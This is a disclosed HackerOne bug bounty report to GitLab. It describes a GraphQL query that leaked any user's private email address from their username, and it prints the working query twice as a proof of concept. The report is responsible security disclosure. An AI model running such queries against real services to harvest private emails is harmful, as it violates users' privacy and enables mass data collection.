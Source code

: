 # Able to leak private email of any user given his/her username via graphql

## Report Details
- **Report ID**: 972355
- **URL**: https://hackerone.com/reports/972355
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-09-01T16:46:21.770Z
- **Disclosed**: 2021-01-08T09:52:47.193Z

## Reporter
- **Username**: vaib25vicky
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary

Graphql query user is leaking private email of users

```
query {
  user(username:"<victim>"){
    email
    username
  }
}

```

### Steps to reproduce

(Step-by-step guide to reproduce the issue, including:)

* Have a account with private email settings
* Use graphql query to access the private email
```
query {
  user(username:"<victim>"){
    email
    username
  }
}
```

* Done

## Impact

Leaks private emails of users by just knowing their usernames. Attacker can use this bug for mass leakage of gitlab users private emails.

## Attachments
No attachments
